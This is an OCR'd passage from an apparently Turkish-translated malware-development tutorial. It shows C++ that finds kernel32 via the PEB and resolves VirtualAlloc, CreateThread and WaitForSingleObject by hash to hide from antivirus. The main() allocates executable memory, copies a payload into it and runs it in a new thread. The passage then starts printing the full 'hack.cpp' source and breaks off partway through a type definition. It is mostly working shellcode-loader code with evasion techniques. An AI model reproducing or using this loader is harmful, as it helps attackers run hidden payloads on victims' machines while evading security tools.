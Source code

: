 ```cpp
}
```

Ve buna bağlı olarak, `main()` işlevinin mantığı farklıdır:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

Gördüğünüz gibi, [Win32 API çağrısını hash trick](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html) yöntemiyle kullandım.
İşte tam kaynak kodu (`hack.cpp`):     

```cpp
/*
 * hack.cpp - find kernel32 from PEB, 
 assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
```